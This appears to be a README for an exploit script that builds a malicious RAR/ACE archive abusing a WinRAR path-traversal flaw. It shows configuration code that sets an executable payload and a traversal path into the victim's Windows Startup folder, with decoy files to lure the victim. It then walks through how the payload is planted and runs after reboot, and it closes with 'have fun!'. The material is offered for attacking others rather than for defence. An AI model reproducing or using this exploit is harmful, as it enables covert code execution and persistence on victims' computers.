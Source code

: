 exp for [Extracting Code Execution From Winrar](https://research.checkpoint.com/extracting-code-execution-from-winrar/)

[poc](https://github.com/Ridter/acefile) by Ridter

how to use ?

you just need to install python 3.7, and prepare a evil file you want to run, set the values you want, **this exp script will generate the evil archive file automatically**!

1. set the values you want

```
... ...

# The archive filename you want
rar_filename = "test.rar"
# The evil file you want to run
evil_filename = "calc.exe"
# The decompression path you want, such shown below
target_filename = r"C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\hi.exe"
# Other files to be displayed when the victim opens the winrar
# filename_list=[]
filename_list = ["hello.txt", "world.txt"]

... ...

def get_right_hdr_crc(filename):
    # This command may be different, it depends on the your Python3 environment.
    p = os.popen('py -3 acefile.py --headers %s'%(filename))
    res = p.read()
    pattern = re.compile('right_hdr_crc : 0x(.*?) | struct')
    result = pattern.findall(res)
    right_hdr_crc = result[0].upper()
    return hex2raw4(right_hdr_crc)

... ...

```

2. run the exp, exp generated the `test.rar` automatically

![](http://imglf5.nosdn.127.net/img/TnVEN1Q3NkoyR0l5aDVmNFA4MnZMVExtcGVqSGZUdDFBWGgyaGU0NGpHWUlPdmU1bHJTMFJ3PT0.jpg?imageView&thumbnail=500x0)

3. if the victim opens the `test.rar`, he will see the file `hello.txt` and `world.txt`, you can also add more files, more attractive files.

![](http://imglf6.nosdn.127.net/img/TnVEN1Q3NkoyR0l5aDVmNFA4MnZMV0IrVk1NeUxJcWh6aXV3TVFHek8zbXBZaFNhamY4aHBBPT0.jpg?imageView&thumbnail=500x0)

4. when he unpacks the file, the victim's user startup directory will have one more file named `hi.exe`, actually it's a `calc.exe`. when he restart the computer, the `hi.exe` will run.

![](http://imglf3.nosdn.127.net/img/TnVEN1Q3NkoyR0l5aDVmNFA4MnZMV0puYkhZTVkvc1hmK2E3KzBYdmZ0cU5yUzFGVVk0THRnPT0.jpg?imageView&thumbnail=500x0)

have fun! :)

https://www.youtube.com/watch?v=jm_lKZRNA1Y
